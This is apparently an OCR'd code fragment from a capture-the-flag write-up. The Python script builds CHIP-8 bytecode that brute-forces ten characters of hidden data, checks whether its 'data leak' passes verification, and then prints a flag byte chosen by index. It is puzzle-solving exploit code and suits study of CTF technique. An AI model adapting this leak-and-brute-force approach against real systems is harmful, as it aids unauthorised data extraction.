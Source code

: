 ```python
	# draw font
	asm += _draw(X=0xB, Y=0xC, N=0x5)
	asm += _add(X=0xB, NN=0x6)
  
	# set load font at index
	asm += _load_sprite(X=0x2)
	# draw font
	asm += _draw(X=0xB, Y=0xC, N=0x5)
	asm += _add(X=0xB, NN=0x6)
  
	# load reg
	asm += _mov(I=True, NNN=stack_base + 0x20)
	asm += _reg_load(X=0xF)
  
	return asm

  
rom_base = 0x0200
stack_base = 0x0EA0
LEN_FLAG = 0x10
IDX = 0  if  len(sys.argv) == 1  else  int(sys.argv[1])
  
asm = ""
  
# set counter at -1
asm += _mov(X=0x0, NN=0xff)
  
_loop = len(asm) // 2
  
# incr counter
asm += _add(X=0x0, NN=1)
  
# bf char at idx V0x0 and write the result to stack_base + 0x60 + V0x0
asm += bf_char(0x0, stack_base + 0x60, pc=len(asm) // 2)
  
# if all ten char are done
asm += _eq(X=0x0, NN=10)
# if not
asm += _jump(NNN=rom_base + _loop)
  
# load random_data
asm += _mov(I=True, NNN=stack_base + 0x60)
  
asm += _verify()
  
# check if our data leak is correct
asm += _eq(X=0xf, NN=0)
# if not
asm += _exit() # FAILED

# load flag + IDX  
asm += _mov(I=True, NNN=stack_base + 0x60 + 10 + IDX)
asm += _reg_load(X=0x0)
  
asm += _print_reg(0x0)
  
  
asm += _exit()
```
